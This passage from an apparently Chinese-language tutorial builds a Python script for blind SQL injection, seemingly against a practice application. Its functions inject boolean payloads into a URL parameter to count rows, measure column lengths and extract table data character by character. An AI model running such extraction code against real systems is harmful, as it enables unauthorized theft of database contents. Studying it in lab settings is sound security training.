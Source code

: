 ```python
        if len(name) == self.column_length[0]:
            self.column_name.append(name)
            print('\n==>',self.column_name[0])
        else:
            print('\ncan not get the column_name')
```

运行结果：

![MJFlUH.png](https://s2.ax1x.com/2019/11/13/MJFlUH.png)

### 获取字段数目

```python
    def get_word_num(self,table_name,column_name):
        for i in range(1,100):
            self.process('get_word_num',i,30)
            theurl = self.url + "1' and (select count({0}) as a from {1} having a={2})%23".format(column_name,table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.word_num = i
                break
        if self.word_num > 0:
            print('\n==>',self.word_num)
        else:
            print('\ncan not get the word_num')
```

### 获取列长

```python
    def get_word_length(self,table_name,column_name):
        for i in range(1,200):
            self.process('get_{0}_length'.format(column_name),i,200)
            theurl = self.url + "1' and (select length(group_concat({0})) as a from {1} having a={2})%23".format(column_name,table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.word_length.append(i)
                break
        if len(self.word_length) >= 1:
            print('\n==>',self.word_length)
        else:
            print('\ncan not get the word length') 
```

### 获取数据

```python
    def get_word_name(self,table_name,column_name,word_num):
        name = ''
        for i in range(1,self.word_length[word_num]+1):
            for j in self.zifuji:
                self.process('get_{0}_name'.format(str(i)),j,100)
                theurl = self.url + "1' and (select ascii(substring(group_concat({0}),{1},1)) as a from {2} having a={3})%23".format(column_name,str(i),table_name,str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        self.word_name.append(name)
        print('\n==>',self.word_name[word_num])
```